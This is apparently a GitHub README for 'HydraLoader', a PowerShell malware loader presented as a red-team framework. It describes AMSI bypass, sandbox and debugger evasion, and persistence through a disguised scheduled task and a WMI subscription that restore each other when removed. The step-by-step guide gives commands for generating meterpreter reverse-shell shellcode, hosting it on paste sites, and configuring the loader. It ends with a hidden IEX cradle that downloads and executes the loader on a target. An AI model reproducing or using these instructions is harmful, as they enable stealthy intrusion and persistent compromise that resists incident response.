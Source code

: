 <p align="center">
  <img src="https://i.imgur.com/lS836hA.png" alt="HydraLoader Logo" width="200"/>
</p>
<h1 align="center">
  <br>
  🐍 HydraLoader 🛡️
  <br>
</h1>

<h4 align="center">The process that refuses to die. A PowerShell loader built on a self-healing persistence engine, designed to survive and thrive even under active incident response.</h4>

<p align="center">
  <a href="https://github.com/ZeroEthical/HydraLoader/blob/main/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-blue.svg?style=for-the-badge" alt="License">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Language-PowerShell-blue.svg?style=for-the-badge&logo=powershell" alt="Language">
  </a>
    <a href="https://github.com/ZeroEthical">
    <img src="https://img.shields.io/badge/Author-ZeroEthical-purple?style=for-the-badge" alt="Author">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Maintained%3F-Yes-green.svg?style=for-the-badge" alt="Maintained">
  </a>
</p>

<p align="center">
  <a href="#-about-the-project">About</a> •
  <a href="#-key-features">Key Features</a> •
  <a href="#-architecture--flow">Architecture</a> •
  <a href="#-getting-started">Getting Started</a> •
  <a href="#-disclaimer">Disclaimer</a> •
  <a href="#-author">Author</a>
</p>

---

## 📖 About The Project

**HydraLoader** is a highly sophisticated and resilient PowerShell-based payload execution framework, designed for advanced penetration testing and red teaming operations. It employs a multi-layered approach to evasion, persistence, and in-memory execution, aiming to operate undetected in modern, highly monitored environments.

---

## ✨ Key Features

<details>
<summary>🧠 <strong>Evasion & Anti-Analysis</strong></summary>
<br>

-   **In-Memory AMSI Bypass**: Dynamically patches the Antimalware Scan Interface (AMSI) at runtime to neutralize script-based threat detection.
-   **Comprehensive Environment Checks**: Actively detects and evades analysis environments by checking for:
    -   **Debuggers**: Uses native `IsDebuggerPresent()` API calls.
    -   **Sandboxes**: Verifies system RAM, CPU core count, and uptime.
    -   **Analysis Tools**: Scans for common virtualization and analysis processes (e.g., Wireshark, Process Monitor, VMware/VirtualBox tools).
-   **Deep Obfuscation**: The entire script is heavily obfuscated, with critical strings (API functions, DLLs) Base64 encoded and a compacted code structure to deter static analysis.
</details>

<details>
<summary>🐍 <strong>The "Hydra" Persistence Engine</strong></summary>
<br>

HydraLoader employs a dual-headed, self-healing persistence mechanism to ensure long-term access and resilience against removal attempts.

-   **Method 1: Scheduled Task (Elevated Privileges)**: Creates a scheduled task disguised as a legitimate system process (`Microsoft Compatibility Appraiser`) that runs with `SYSTEM` privileges at logon.
-   **Method 2: WMI Event Subscription (Maximum Stealth)**: Establishes a permanent WMI event subscription that triggers on a timer. This method is extremely difficult to detect as it resides in the WMI repository, outside of standard auto-run locations.
-   **Self-Healing Capability**: On each execution, the framework checks if both persistence mechanisms are active. If one has been discovered and removed, the other automatically recreates it, ensuring the "Hydra" survives.
</details>

<details>
<summary>🚀 <strong>Payload Execution</strong></summary>
<br>

-   **"Fileless" In-Memory Operation**: The payload is downloaded directly into a memory buffer, decoded, and executed without ever touching the disk, minimizing the forensic footprint.
-   **AES-256 Decryption Framework**: Includes a function to decrypt payloads using AES-256 (CBC). This allows the payload to be stored and transmitted in an encrypted state, rendering it useless to network inspection tools. *(Note: Requires a pre-encrypted payload)*.
-   **Dynamic API Resolution**: Resolves all necessary Windows API functions dynamically at runtime, avoiding suspicious static import tables.
</details>

---

## ⚙️ Architecture & Flow

1.  **Initialization**: The AMSI bypass is executed instantly.
2.  **Evasion Checks**: The script performs all anti-analysis and anti-sandbox checks. If any fail, it terminates silently.
3.  **Persistence Check & Repair**: The Hydra engine verifies that both the Scheduled Task and WMI Subscription are in place. If not, it creates them.
4.  **Payload Delivery**: The framework downloads the payload from the configured URL directly into memory.
5.  **Decryption & Preparation**: The payload is Base64 decoded. If AES is enabled, it is then decrypted.
6.  **Execution**: The final payload is injected into memory and executed via stealthy Windows API calls.

---

## 🚀 How to Use This Beast 😏

This guide will walk you through preparing your payload, configuring HydraLoader, and deploying it on a target system.

### Step 1: Payload Preparation (Example with `msfvenom`)

First, you need to generate your shellcode. For this example, we'll create a simple reverse shell payload.

1.  **Generate Raw Shellcode**:
    Use a tool like Metasploit's `msfvenom` to create the raw shellcode.

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin
    ```
    > Replace `YOUR_IP` and `YOUR_PORT` with your listener's details.

2.  **Encode the Shellcode in Base64**:
    HydraLoader expects the payload to be Base64 encoded.

    ```powershell
    # In PowerShell
    $bytes = [System.IO.File]::ReadAllBytes("C:\path\to\shellcode.bin")
    [System.Convert]::ToBase64String($bytes) | Out-File shellcode_b64.txt
    ```
    > Copy the resulting Base64 string. You'll need it in the next step.

### Step 2: Host Your Payload

1.  **Host the Base64 Payload**:
    Paste the Base64 string you just copied into a file (e.g., `payload.txt`) and host it on a web server or a service like GitHub Gist, Pastebin, etc.
2.  **Get the Raw URL**:
    Make sure you have a direct, raw link to the file content. For example, a GitHub Gist raw URL looks like `https://gist.githubusercontent.com/user/gist_id/raw/payload.txt`.

### Step 3: Configure HydraLoader

Now, you need to configure the `MALWARE DECODED.ps1` script itself.

1.  **Update the Payload URL**:
    -   Find the `$cfg` hashtable at the beginning of the script.
    -   Locate the key `$cfg.o`. This holds the Base64 encoded URL of your payload.
    -   First, encode your raw payload URL in Base64:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("https://your-raw-payload-url.com/payload.txt"))
        ```
    -   Replace the existing value of `$cfg.o` with your new Base64 encoded URL.

### Step 4: (Optional) Configure AES Encryption for Maximum Stealth

If you want to add another layer of protection, you can encrypt your payload.

1.  **Generate a Key and IV**:
    You need a 32-byte (256-bit) key and a 16-byte (128-bit) IV. You can generate them in PowerShell:
    ```powershell
    # Generate a random 32-byte key
    $key = -join ((0..31) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })
    # Generate a random 16-byte IV
    $iv = -join ((0..15) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })

    Write-Host "Key: $key"
    Write-Host "IV: $iv"
    ```

2.  **Encrypt the Shellcode**:
    Use your favorite encryption script or tool (like CyberChef) with your generated Key and IV to encrypt your **raw** shellcode file (`shellcode.bin`). Then, Base64 encode the **encrypted** output.

3.  **Configure HydraLoader with Keys**:
    -   Base64 encode your Key and IV:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_32_BYTE_KEY_HERE"))
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_16_BYTE_IV_HERE"))
        ```
    -   Update `$cfg.r` (key) and `$cfg.s` (IV) in the script with these new Base64 values.

4.  **Activate Decryption in Script**:
    -   In the `MALWARE DECODED.ps1` script, find the payload handling section.
    -   Uncomment the three lines responsible for decryption:
        ```powershell
        # $k = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.r)); $iv = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.s))
        # $exec_buf = Expand-Stream -d $buf -k $k -iv $iv; if (-not $exec_buf) { exit }
        ```
        And comment out the line that bypasses it:
        ```powershell
        # $exec_buf = $buf
        ```

### Step 5: Deployment

With your payload prepared and HydraLoader configured, you're ready for deployment.

1.  **Set Up Your Listener**:
    Start your C2 listener (e.g., Metasploit's `multi/handler`) to catch the incoming connection.

2.  **Execute on Target**:
    Deliver and execute the `MALWARE DECODED.ps1` script on the target machine. You can use any standard execution method:
    ```powershell
    # Example: Direct execution
    powershell.exe -ExecutionPolicy Bypass -File ".\MALWARE DECODED.ps1"

    # Example: Remote download and execution (IEX cradle)
    powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://your-server/MALWARE%20DECODED.ps1')"
    ```
    On its first run, HydraLoader will set up its persistence mechanisms and then proceed with the payload execution. Subsequent runs will ensure persistence is maintained before executing the payload.

---

## ⚠️ Disclaimer

This tool is intended for authorized red teaming, security research, and educational purposes **only**. Unauthorized use of this framework against any system is illegal. The author assumes no liability and is not responsible for any misuse or damage caused by this program.

---

## 🙏 Acknowledgements

A special thanks to our friends in the Telegram community for providing the base code that inspired the creation of this project.

-   [@scarlettaowner](https://t.me/scarlettaowner)
-   [@viperzcrew](https://t.me/viperzcrew)

---

## ✍️ Author

-   **ZeroEthical** - [GitHub](https://github.com/ZeroEthical)